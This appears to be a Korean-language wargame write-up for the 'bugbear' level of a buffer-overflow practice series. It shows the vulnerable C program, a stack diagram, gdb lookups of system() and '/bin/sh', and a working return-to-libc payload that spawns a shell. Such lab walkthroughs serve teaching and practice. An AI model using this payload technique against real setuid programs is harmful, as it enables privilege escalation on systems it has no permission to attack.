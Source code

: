 ============================================================================================================
[redhat-lob] (13) bugbear
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy*44 + &system() + dummy*4 + &(/bin/sh)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        e [shape=box, label="libc"];
    }

|

source code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
            printf("stack betrayed you!!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }



Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Segmentation fault
============================================================================================================

Overflow condition 

- argv[1]의 47번째 문자열이 "\\xbf"이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./bugbear `python -c 'print "a"*40'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    $ ./bugbear `python -c 'print "a"*44'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault



exploit
============================================================================================================

gdb를 통해 system()함수 주소를 확인하고, "/bin/sh" 문자열 위치 주소를 확인한다.

.. code-block:: console

    (gdb) p system
    $1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>


.. code-block:: c

    #include <stdio.h>
    main(){
        long shell=0x40058ae0;
        while(memcmp((void*)shell, "/bin/sh", 8))
        shell++;
        printf("%x\n",shell);
    }
 
.. code-block:: console

    $ ./findsh
    400fbff9


|

libc를 이용한 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    libc ->> shellcode
    ==============================
    LOW     
    ------------------------------
    local variables of problem_child
    saved registers of problem_child
    return address of problem_child <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)
    ==============================

|



.. code-block:: console

    $ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"'`


    bash$ whoami
    bugbear
    bash$ my-pass
    euid = 513
    new divide



